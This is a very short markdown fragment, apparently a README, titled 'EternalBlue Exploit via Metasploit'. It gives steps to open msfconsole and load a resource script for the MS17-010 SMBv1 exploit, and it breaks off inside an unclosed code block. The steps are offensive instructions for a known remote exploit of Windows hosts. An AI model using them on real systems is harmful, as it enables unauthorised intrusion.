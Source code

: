 # EternalBlue Exploit via Metasploit

This uses the famous SMBv1 vulnerability.

## Steps

```bash
msfconsole
> resource scripts/exploits/smb_ms17_010.rc
